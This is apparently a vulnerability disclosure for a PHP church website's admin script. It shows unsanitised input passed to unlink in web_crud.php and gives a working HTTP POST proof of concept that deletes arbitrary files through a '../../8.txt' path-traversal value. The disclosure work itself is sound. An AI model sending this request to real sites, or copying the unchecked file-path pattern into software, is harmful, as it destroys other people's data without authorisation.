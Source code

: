 ### Vulnerability file address

In line 262 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_photo1_img']);`,` $_POST['old_photo1_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['photo1']['tmp_name'] != '') {
            $img1 = generateUniqueFilename($_FILES['photo1']);
            $filepath = "../../assets/images/" . $img1;

            if (move_uploaded_file($_FILES["photo1"]["tmp_name"], $filepath)) {
                @unlink("../../assets/images/" . $_POST['old_photo1_img']);
            }
        }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 373

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update5"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_photo1_img"

../../8.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="photo1";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `8.txt` file in the `church/` directory

![image-20250504211803608](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042118656.png)

Then we execute the above poc to attack

![image-20250504211912140](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042119165.png)

Files are deleted after the attack is successful

![image-20250504211904516](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042119545.png)